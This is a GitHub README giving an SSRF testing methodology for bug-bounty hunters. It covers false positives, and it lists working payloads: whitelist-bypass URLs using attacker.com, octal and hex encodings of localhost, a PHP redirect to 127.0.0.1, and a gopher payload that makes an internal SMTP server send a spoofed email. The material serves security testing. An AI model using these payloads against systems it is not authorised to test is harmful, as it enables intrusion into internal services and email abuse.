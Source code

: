 # SSRF
## SSRF Methodology Flowchart
Since I've seen so many people ask what to do once they get a request back to their collaborator instance, I created this flowchart to present what I usually do to test and escalate SSRFs.  
## Disclaimer
I am sure there are a few other ways of bypassing ssrf filters which I did not include, however this flowchart shows the ones I personally test against.
<img src=https://github.com/iustin24/SSRF/blob/main/iustinSSRFflowchart.png>
## False Positives:
DNS queries only are rarely exploitable, and should never be reported without any additional impact.

When using your listener as an email domain `test@burpcollaborator.com`, recieving SMTP + DNS queries are not signs of SSRF. It's just how SMTP works and should never be reported. There's been edge cases where the payload `test@burpcollaborator.com`, lead to http requests. If that's the case, SSRF might be possible. See [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) story 4. 
## Sources: 
### Whitelist filter bypasses
Some common whitelist filter bypasses I test against:
```
https://target.com@attacker.com
https://attacker.com/target.com
https://target.com.attacker.com
```
### Blacklist filter bypasses (decimal, hex, octal)
Inspired from [EdOverflow's blogpost on exploiting Ruby's Resolv](https://edoverflow.com/2017/ruby-resolv-bug/)  
```
http://0177.1:22/  
http://0x7f.1:22/  
http://127.000.001:22/  
```
See more at [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)

### PHP Redirect
The value appended to location will be the url your page will redirect to. You can also play around with different status codes other than 301, such as 302,303,307.
```
<?php
header("Location: http://127.0.0.1", TRUE, 301);
exit();
?>
```
### SMPT Gopher payloads
Inspired from [d0nut's Piercing the veal](https://medium.com/@d0nut/piercing-the-veal-short-stories-to-read-with-friends-4aa86d606fc5) 
```
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```
Payload taken from [PayloadsAllTheThings SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
### Exploiting incosistencies in url parsers + DNS Rebdinding
Orange Tsai's blackhat presentation explains this perfectly. ( 
[PDF slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf) + 
[Youtube presentation](https://www.youtube.com/watch?v=R9pJ2YCXoJQ&ab_channel=BlackHat) )  
I also highly recommend watching Liveoverflow's video  ([PHP include and bypass SSRF protection with two DNS A records ](https://www.youtube.com/watch?v=PKbxK2JH23Y&ab_channel=LiveOverflow)) which discusses url parsing incosistencies, while also touching on DNS Rebinding.
### More SSRF Resources
[Jdonsec's list of SSRF Resources](https://github.com/jdonsec/AllThingsSSRF)
